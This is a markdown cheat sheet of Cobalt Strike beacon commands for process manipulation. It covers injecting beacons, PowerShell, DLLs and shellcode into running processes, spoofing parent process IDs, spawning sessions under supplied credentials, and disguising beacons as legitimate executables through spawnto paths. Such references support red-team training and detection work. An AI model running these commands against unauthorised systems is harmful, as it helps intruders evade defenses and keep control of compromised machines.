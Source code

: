 # 06 - Process Manipulation

Search Tag(s): #command-and-control #post-exploitation #defense-evasion #cobalt-strike

## 6.1 - Inject Process

Inject to spawn beacon session.

```
beacon> inject <pid> <architecture> <listener>
```

Run powershell through another process.

```
beacon> psinject <pid> <arch> <cmdlet> [args]
```

Inject DLL file in another process.

```
beacon> dllload <pid> c:\path\to\remove\shell.dll
```

## 6.2 - Inject Shellcode

Inject shellcode.

```
beacon> shinject <pid> /path/to/shellcode.bin
```

Spawn a new process and inject shellcode.

```
beacon> shspawn x64
```

Spawn shellcode and tunnel.

```
beacon> spunnel <pid> /path/to/shellcode.bin
```

## 6.3 - Spoof Process

Spoof a parent process that is ready to spawn a new child process.

```
beacon> ppid <ppid>
```

## 6.4 - Spawn Beacon Session

Spawn new beacon process with under different user credentials as provided.

```
beacon> spawnas <domain>\<username> <password>
```

Specify a path of the new executable program to inject beacon shellcode other than specified in the malleable c2 profile. By default it injects `rundll32.exe` when executing `spawn`.

```
beacon> spawnto <arch> <path> <args>

beacon> spawnto x86 c:\program files (x86)\internet explorer\iexplore.exe

beacon> spawnto x86 C:\Program Files (x86)\Common Files\Java\Java Update\jucheck.exe
```

Spawn new beacon process.

```
beacon> spawn <arch> <listener>
```

---
## References

* [Cobalt Strike Spawn Tunnel](https://rastamouse.me/cobalt-strike-spawn-tunnel/)